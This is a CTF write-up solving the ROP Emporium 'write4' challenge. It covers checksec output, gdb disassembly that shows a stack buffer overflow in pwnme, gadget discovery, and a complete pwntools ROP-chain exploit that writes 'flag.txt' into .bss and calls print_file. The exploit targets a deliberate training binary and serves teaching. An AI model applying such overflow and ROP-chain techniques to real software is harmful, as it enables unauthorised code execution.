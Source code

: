 ```yaml
---
title: RopEmporium - Write4
date: 2021-12-17 23:20:05
summary: Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).
tags: [ropemporium, rop]
---
```


Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary, we will use gdb debugger to analyze the functions. For analysis of our binary we start at the `main` function which is the entrypoint of our execution.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. Next step is analyzing `libwrite4.so` library using gdb.

```nasm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.

![](/images/ropemporium/stack.png)

Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability,we can exploit it in order to abuse the control flow of the program by controlling the value of the return address.

From the authors hint, we need to look for an ELF section that is writable in order to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check permissions of different sections using the command **iS** as shown in the image below.

![](/images/ropemporium/write4_where.png)

From the above we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get memory address of **.bss** area.

From the authors challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.

![](/images/ropemporium/write4_useful.png)

From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the the print_file function.

From the disassembly of the binary we have another interesting function called **usefulGadgets**.

```nasm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write content of `r15` register to memory address [r14]. Next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI.The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control both `r14` and `r15`.

```nasm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```nasm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid passing of an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```nasm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain them together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit, will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
